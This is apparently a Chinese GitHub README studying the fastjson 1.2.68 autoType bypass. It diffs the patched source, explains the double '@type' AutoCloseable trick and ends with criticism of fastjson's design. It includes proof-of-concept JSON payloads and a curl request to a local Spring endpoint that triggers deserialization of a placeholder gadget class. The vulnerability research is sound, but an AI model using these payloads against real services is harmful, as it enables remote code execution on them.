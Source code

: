 fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复

![img.png](./screenshots/img1.png)

升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L

![img.png](./screenshots/img2.png)

通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞大概率与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个

![img.png](./screenshots/img3.png)

通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的构造方法且非抽象类
2. getXXX 或 setXXX 或构造方法能触发危险操作
3. 实现 AutoCloseable
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

```java
@PostMapping("case1")
public TestCase1Vo test1(@RequestBody TestCase1Request request) {
    TestCase1Vo vo = new TestCase1Vo();
    vo.setMessage(request.getMessage());
    return vo;
}
```

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 方法)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格

